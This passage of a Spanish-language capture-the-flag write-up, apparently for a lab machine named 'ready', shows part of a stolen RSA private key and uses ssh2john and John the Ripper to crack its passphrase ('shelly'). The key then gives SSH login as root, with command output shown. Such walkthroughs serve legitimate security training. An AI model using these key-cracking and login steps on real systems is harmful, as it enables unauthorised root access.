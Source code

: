 ```
dMgfgLN0lM0G+P9QvmmX7TuH1MU1IIfZZw9dCfdUqVVKyegA2RQ7fZG9D8o3l1J0
bIj0VJE7ykqqZEndzgBGRw3bEu3/OKpJM2UFqr/pPlu1w1bVIzHrTPNI5nk6dm77
n/TqwSgU2EQDWK88Z8TORZvuoNA3FelyzxCfRC2HLv0+QrVbyY7dLf3oLH0Zq+gK
1OYVrTKbe4pu0J2R7jZw20pLWeEZPuSE3RmVwcSsVzwb6dBk5rMkwCE5gG1qNh1U
koCqtHzXveisx5I7KrvBj5RTaK/aPX/v8BS/oh8AmiQr2Pqq9K+aQScP2XYh691x
yfVoFGJrZMcG5VD3QxrgWamgcHhug2LotpRbxjc777uK/muI9rUSQLYC06H2Cdf/
kRUH9Ohf3ZrVXpcCMhuCBbOxYBr+TAGjwJIBAYuFMBqhZ4gyaZhxJMCBhQOJHy6c
xR2cUdOAUh9lY40/o0Pwf+5GWiX2u5KmzcZ9iLdJ4NtgYiYMjGMe+0G37PdCXJvG
D+VsowoqCou916TMZUKpYSkzj8q3GLSib6CumVzKDesMLaYiZTOd1ShBqTlYjorp
Dlo5vrgUFk17OS8n0gtQuavBvN+2aM6gMOgiJrXfeLjzPGoY2ypHyNlbp/JI0/Y+
DfE+2kNqriAlvZps1mllIKITk1wNPQ3PVuBW9DkvrSUW7Ye+oMK3WoiQkY4qyu+2
pN0okmXmT5ygTq9KBQUEtjU8RnY27y34nYwCQus0HCA+FfRoxDbJYl0sN2g/Mzjq
PWVlSZLxzcya8sxPBA8gto3H5BxFnTxRXbCBTjTL09imi3QMl9K1emUlG8rSpBsI
-----END RSA PRIVATE KEY-----
```

```shell
ssh2john id_rsa > hash.ssh | john --wordlist=<WORDLIST> hash.ssh
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
shelly           (id_rsa)     
1g 0:00:00:00 DONE (2025-08-11 03:49) 20.00g/s 19840p/s 19840c/s 19840C/s marie1..babyface
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que hemos conseguido la contraseña del `id_rsa` por lo que vamos a utilizarla conectandonos con el usuario `root` mediante `SSH`.

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa root@<IP>
```

Metemos como contraseña `shelly`...

Info:

```
Enter passphrase for key 'id_rsa': 
Linux ready 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64
Last login: Wed Jul 12 18:22:32 2023
root@ready:~# whoami
root
```
